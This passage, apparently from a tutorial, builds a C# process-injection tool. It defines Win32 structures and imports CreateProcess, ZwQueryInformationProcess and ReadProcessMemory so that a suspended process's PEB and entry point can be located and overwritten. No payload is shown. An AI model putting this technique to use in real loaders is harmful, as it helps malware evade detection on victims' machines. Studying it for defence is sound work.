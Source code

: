 ```csharp
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }
        [StructLayout(LayoutKind.Sequential)] //Define the process information
        internal struct PROCESS_INFORMATION //This struct is provided to the the lpProcessInformation parameter in the CreateProcess API
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }
        [StructLayout(LayoutKind.Sequential)] //Define Process BASIC Information struct
        internal struct PROCESS_BASIC_INFORMATION //This struct will be passed to ZwQueryProcessInformation api in the 3rd argument/parameter
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }
        static void Main(string[] args)
        {
        }
    }
} 
```

Now that the structures are defined we use DLL imports for the Win32 APIs we will call, which are:

* CreateProcess
* ZwQueryInformationProcess
* ReadProcessMemory
* WriteProcessMemory
* ResumeThread

```csharp
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)] //Import CreateProcess API to create our suspended process
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
            [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)] //Import ZwQueryInformationProcess using pinvoke.net, this will allow us to discole the PEB and locate the entry point
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);
        //This api is very low level the docs show NTSTATUS, this returns a hex value directly from the kernel
        [DllImport("kernel32.dll", SetLastError = true)] //We must supply five parameters for this function. They are a process handle (hProcess), the address to read from (lpBaseAddress), a buffer to copy the content into (lpBuffer), the number of bytes to read (nSize), and a variable to contain the number of bytes actually read (lpNumberOfBytesRead).
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
```